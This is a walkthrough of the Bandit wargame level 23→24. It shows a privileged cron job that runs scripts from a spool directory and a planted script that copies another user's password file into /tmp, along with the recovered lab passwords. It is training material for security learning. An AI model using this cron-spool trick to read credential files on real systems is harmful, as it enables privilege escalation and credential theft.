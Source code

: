 # Bandit Level 23 → Level 24

## Level Goal

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Commands you may need to solve this level

cron, crontab, crontab(5) (use “man 5 crontab” to access this)

## Solution

* Step1

  ```shell
  ./bandit_login.sh bandit23 jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
  ```

* Step2

  ```shell
  bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
  @reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
  * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
  ```

* Step3

  ```shell
  bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
  #!/bin/bash
  
  myname=$(whoami)
  
  cd /var/spool/$myname
  echo "Executing and deleting all scripts in /var/spool/$myname:"
  for i in * .*;
  do
      if [ "$i" != "." -a "$i" != ".." ];
      then
  	echo "Handling $i"
  	timeout -s 9 60 ./$i
  	rm -f ./$i
      fi
  done
  ```

* Step4

  ```shell
  bandit23@bandit:~$ vi /var/spool/bandit24/cat_pass.sh
  
  #!/bin/bash
  cat /etc/bandit_pass/bandit24 > /tmp/bandit24_pass
  ```

* Step5

  ```shell
  bandit23@bandit:~$ cat /tmp/bandit24_pass
  UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
  ```

  